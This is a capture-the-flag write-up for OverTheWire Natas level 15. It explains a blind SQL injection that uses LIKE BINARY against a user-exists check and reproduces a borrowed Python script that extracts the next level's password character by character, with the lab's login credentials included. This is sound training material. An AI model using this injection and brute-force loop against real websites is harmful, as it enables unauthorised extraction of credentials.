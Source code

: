 # 15

```
Username: natas15
URL:      http://natas15.natas.labs.overthewire.org
```

The website uses SQL to check if a user exists. Just like the previous level, the input is unfiltered, but it looks like we need to brute force the password ourselves. We can use `natas16` as the user because it exists.

Instead of using the text box we can use the URL instead. After the index.php, we can try doing  `SELECT * from users where username="natas16" and password LIKE BINARY "(pass)%"`. The LIKE BINARY will help us compare the password input case-sensitively, and the % key will fill out the rest of the password, so we can brute force every character until we get the full password.  We can tell if it works because it will say "This user exists", while incorrect passwords are "This user doesn't exist". 

For the sake of time I just looked for other solutions for this level and took [this person's code.](https://github.com/psmiraglia/ctf/blob/master/overthewire/natas/natas15.md) Brute forcing itself is time consuming anyway. Here's the python code.

> ```python
> import requests
> target = 'http://natas15.natas.labs.overthewire.org'
> charset_0 = (
>     '0123456789' +
>     'abcdefghijklmnopqrstuvwxyz' +
>     'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
> )
> webauth = ('natas15','SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
> charset_1 = ''
> for c in charset_0:
>     username = ('natas16" AND password LIKE BINARY "%' + c +'%" "')
>     r = requests.get(target,
>         auth=webauth,
>         params={"username": username}
>     )
>     if "This user exists" in r.text:
>         charset_1 += c
>         print ('CSET: ' + charset_1.ljust(len(charset_0), '*'))
> 
> password = ""
> while len(password) != 32:
>     for c in charset_1:
>         t = password + c
>         username = ('natas16" AND password LIKE BINARY "' + t +'%" "')
>         r = requests.get(target,
>             auth=webauth,
>             params={"username": username}
>         )
>         if "This user exists" in r.text:
>             print ('PASS: ' + t.ljust(32, '*'))
>             password = t
>             break
> ```
